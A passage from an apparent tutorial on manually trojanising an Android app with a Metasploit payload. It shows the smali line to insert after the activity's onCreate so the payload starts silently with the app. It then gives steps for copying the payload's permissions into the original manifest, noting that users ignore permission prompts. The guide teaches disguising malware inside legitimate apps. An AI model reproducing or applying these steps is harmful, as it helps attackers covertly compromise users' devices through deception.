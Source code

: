 ![Screenshot from 2015-12-19 19:06:17](/images/posts/metasploit-apk-manually-screenshot-from-2015-12-19-190617.png)

Now search for the following line in the smali code (using CTRL+F) —
```
;->onCreate(Landroid/os/Bundle;)V
```

When you locate it, paste the following code in the line next to it —
```
invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V
```

What we are doing here is, inserting a code which starts the payload alongside the existing code which is executed when the activity starts. Now, save the edited smali file.


### Step 5: Inject The Necessary Permissions


From developer.android.com —

> Additional finer-grained security features are provided through a “permission” mechanism that enforces restrictions on the specific operations that a particular process can perform.

If we do not mention all the additional permissions that our payload is going to need, it cannot function properly. While installing an app, these permissions are shown to the user. But most of the users don't care to read all those boring texts, so we do not have to worry about that much.

These permissions are also listed in the previously encountered AndroidManifest file. So let's open the AndroidManifest.xml of both the original app and the payload from the respective folders. The permissions are mentioned inside `<uses-permission>` tag as an attribute `android:name`. Copy the additional permission lines from the Payload's AndroidManifest to the original app's one. But be careful that there should not be any duplicate.

Here's my original app's AndroidManifest before editing —